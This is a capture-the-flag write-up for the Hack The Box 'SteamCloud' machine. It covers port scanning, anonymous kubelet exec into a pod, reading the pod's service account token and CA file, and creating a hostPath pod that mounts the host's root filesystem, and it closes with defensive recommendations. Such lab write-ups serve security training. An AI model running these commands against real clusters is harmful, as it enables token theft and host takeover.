# HTB - SteamCloud

**IP Address:** `10.129.96.167`  
**OS:** `Linux`  
**Difficulty:** `Easy`  
**Tags:** #Kubernetes #Kubelet #Minikube

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-steamcloud.md`. Redact flags, hashes, and passwords if you publish a public writeup.

---
## Synopsis

SteamCloud exposed a Kubernetes/minikube control plane and an anonymously accessible kubelet. By enumerating pods via kubelet and finding an exec-capable workload, I extracted the default service account token and cluster CA, authenticated to the Kubernetes API, and used allowed pod creation to mount the host filesystem and retrieve both flags.

---
## Skills Required

- Basic Linux enumeration
- Basic Kubernetes concepts (pods, service accounts, RBAC)

## Skills Learned

- Enumerating kubelet to discover pods and test exec/RCE
- Pivoting from a pod’s service account to authenticated `kubectl`
- Using `hostPath` mounts (when allowed) to access host filesystems

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.96.167
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.96.167 -oG allPorts
```



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,2379,2380,8443,10249,10250,10256 10.129.96.167 -oN targeted
cat targeted
```




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH 7.9p1 (Debian 10) |
| 2379/2380 | etcd (TLS) | Kubernetes component |
| 8443 | Kubernetes API (TLS) | Anonymous forbidden; minikube-like cert |
| 10250 | kubelet (TLS) | Candidate kubelet endpoint |
| 10249/10256 | HTTP (Go) | Kubernetes-related components |

---
## 2. Service Enumeration

### 2.1 Kubernetes API (8443)

Since port 8443 looked like a Kubernetes API endpoint, I queried it directly to confirm behavior and version:

```bash
curl -k https://10.129.96.167:8443/
curl -k https://10.129.96.167:8443/version
```



The API required authentication for most paths, so I pivoted to kubelet enumeration.

---
### 2.2 Kubelet Enumeration (10250)

To enumerate kubelet more effectively (including exec/websocket-backed functionality), I used `kubeletctl` to list pods and check which were exec-capable:

```bash
kubeletctl -s 10.129.96.167 pods
kubeletctl -s 10.129.96.167 scan rce
```




The `nginx` pod in the `default` namespace was RCE-capable, so I used it for initial access.

---
## 3. Foothold

### 3.1 Exec into `nginx` via kubelet

I validated command execution inside the `nginx` pod and opened a shell:

```bash
kubeletctl -s 10.129.96.167 exec "id" -p nginx -c nginx
kubeletctl -s 10.129.96.167 exec "hostname -I" -p nginx -c nginx
kubeletctl -s 10.129.96.167 exec "bash" -p nginx -c nginx
```



From within the container, I found and read `user.txt`:

```bash
cd /root
cat user.txt
```



🏁 **User flag obtained**

---
### 3.2 Extract service account token and CA

To authenticate to the Kubernetes API, I extracted the service account token and cluster CA certificate from the pod:

```bash
kubeletctl -s 10.129.96.167 -p nginx -c nginx exec "ls -la /run/secrets/kubernetes.io/serviceaccount/"
kubeletctl -s 10.129.96.167 -p nginx -c nginx exec "cat /run/secrets/kubernetes.io/serviceaccount/token" > token
kubeletctl -s 10.129.96.167 -p nginx -c nginx exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" > ca.crt
```




With these, I could authenticate to the API and enumerate permissions:

```bash
kubectl -s https://10.129.96.167:8443 --certificate-authority=ca.crt --token="$(cat token)" get pods
kubectl -s https://10.129.96.167:8443 --certificate-authority=ca.crt --token="$(cat token)" auth can-i --list
kubectl -s https://10.129.96.167:8443 --certificate-authority=ca.crt --token="$(cat token)" get pod nginx -o yaml
```





The RBAC output showed I could **get/create/list pods** in `default`, which enabled the privesc path.

---
## 4. Privilege Escalation

### 4.1 Create a hostPath pod

Since pod creation was allowed, I created a new pod that mounts the host filesystem (`/`) into the container:

```bash
cat evil.yaml
kubectl -s https://10.129.96.167:8443 --certificate-authority=ca.crt --token="$(cat token)" apply -f evil.yaml
```




I verified the new pod existed and remained exec-capable via kubelet:

```bash
kubeletctl -s 10.129.96.167 pods
kubeletctl -s 10.129.96.167 scan rce
```



---
### 4.2 Root access via host filesystem mount

Finally, I executed a shell inside the `evil-pod`, navigated the mounted host filesystem, and read the root flag:

```bash
kubeletctl -s 10.129.96.167 -p evil-pod -c evil-pod exec "bash"
cd /mnt/root
cat root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerated exposed Kubernetes/minikube services and identified the API on `8443` and kubelet on `10250`.
2. Used `kubeletctl` to list pods and found an exec-capable `nginx` pod.
3. Extracted the `default` service account token and CA, authenticated to the API with `kubectl`, and confirmed `pods/create`.
4. Created a pod mounting host `/` via `hostPath`, then used kubelet exec to read `root.txt` from the mounted filesystem.

---
## Defensive Recommendations

- Require authentication/authorization on kubelet; disable anonymous access.
- Limit service account RBAC; avoid granting `pods/create` to default accounts.
- Enforce admission controls to restrict `hostPath` volumes and privileged mounts.
